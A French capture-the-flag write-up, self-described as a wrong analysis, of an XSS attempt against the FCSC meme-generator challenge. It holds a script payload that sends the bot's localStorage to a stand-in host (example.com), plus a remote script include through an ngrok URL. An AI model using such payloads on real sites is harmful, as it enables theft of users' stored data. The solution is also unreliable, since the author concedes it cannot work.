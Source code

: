 # Mauvaise analyse

Cette analyse a été faite sans avoir tenu compte de la mention **"le bot n'a pas accès à internet"** dans l'énoncé.
Il n'est donc pas possible d'appliquer ce qui à été fait ici dans la pratique.
Voici ce qui rend cette solution inapplicable :
1. Le bot ne peut pas récupérer le script hébergé
2. Le bot ne peut pas envoyer le résultat vers un serveur externe

## Analyse

- Application web : https://meme-generator.fcsc.fr/

Il est indiqué que le bot accessible possède le flag dans son localStorage.

On va alors essayer de faire une attaque XSS via le formulaire de création de meme.

## XSS

- On récupère tous les éléments du localStorage et on les envoie à l'URL de notre choix.

```html
<script>
    document.location.href = 'https://example.com/'+JSON.stringify(localStorage);
</script>
```

Problème : Le contenu de ce qu'on envoie lors de la requête pour le XSS est réécris en majuscules. Donc les mots clés ( tels que `document` etc...) ne sont plus reconnus...

> On pourrait alors essayer de faire une obfuscation pour que la casse n'impacte pas le bon fonctionnement du script ???\
> Tentatives infructueuses...

### Et ensuite ?

Une fois cette solution trouvée, on pourra simplement utiliser le bot pour faire la requête vers le site avec notre injection XSS

```zsh
nc chall.fcsc.fr 2210
```

### Nouvelle solution (sauf que non)

On peut alors essayer de ne pas passer directement le script pour qu'il ne soit pas altéré !

```html
<script src="https://example.com/script.js"></script>
```
Le script contiendra alors le code d'injection XSS.

#### Hébergement du script

On va alors héberger le script sur un serveur pour qu'il soit accessible par le site.

On crée donc un fichier `server.js` faisant office de serveur pour envoyer notre script (cf. `script.js`)

On peut rendre disponible notre server en local avec `ngrok` :

```zsh
ngrok http 3000
```

On va alors récupérer l'URL publique de ngrok et l'utiliser dans notre injection XSS.

```html
<script src="https://xxx.ngrok-free.app/SCRIPT.JS"></script>
```

Sauf quuuueeeee... Merci à la phrase **"le bot n'a pas accès à internet"** dans l'énoncé 😆
Il faudra m'apprendre à lire un jour...